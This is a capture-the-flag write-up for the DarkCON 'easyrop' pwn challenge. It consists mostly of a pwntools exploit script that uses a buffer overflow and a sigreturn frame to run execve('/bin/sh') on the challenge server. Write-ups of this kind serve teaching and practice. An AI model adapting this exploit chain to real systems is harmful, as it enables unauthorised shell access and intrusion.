


## DarkCON CTF: easyrop [pwn]


##### *tl;dr: buffer overflow + multiple rop approaches (I used sigrop here)*
#### The program had a buffer overflow vulnerability and was statically linked thus having a lot of possible ROP gadgets. Since I was too lazy to look and chain gadgets, I opted for a much simpler sigrop approach.

```python
from pwn import *

#: CONNECT TO CHALLENGE SERVERS
binary = ELF('./easy-rop', checksec = False)
#: libc = ELF('./libc.so', checksec = False)

p = process('./easy-rop')
#: p = process('./easy-rop', env = {'LD_PRELOAD' : libc.path})
p = remote("65.1.92.179", 49153)
print(p.recvuntil('name:'))

#: GDB SETTINGS
breakpoints = ['break *0x401e85']
#gdb.attach(p, gdbscript = '\n'.join(breakpoints))

#: EXPLOIT INTERACTION STUFF
context.arch = 'amd64'
pop_rax = 0x00000000004175eb
pop_rdi = 0x000000000040191a
syscall = 0x00000000004012d3

frame = SigreturnFrame(kernel = "amd64")
frame.rax = 0x3b #: execve syscall
frame.rdi = 0x4c2220 #: /bin/sh string in memory
frame.rsi = 0
frame.rdx = 0
frame.rip = syscall #: execve('/bin/sh', 0, 0);

#: PWN THY VULNS
exploit = cyclic(72)
exploit += p64(pop_rdi)
exploit += p64(0x4c2220) #: .bss
exploit += p64(binary.symbols['gets'])
exploit += p64(pop_rax)
exploit += p64(0xf)
exploit += p64(syscall)
exploit += str(frame)

p.sendline(exploit)
p.sendline('/bin/sh\x00')
p.interactive()
```
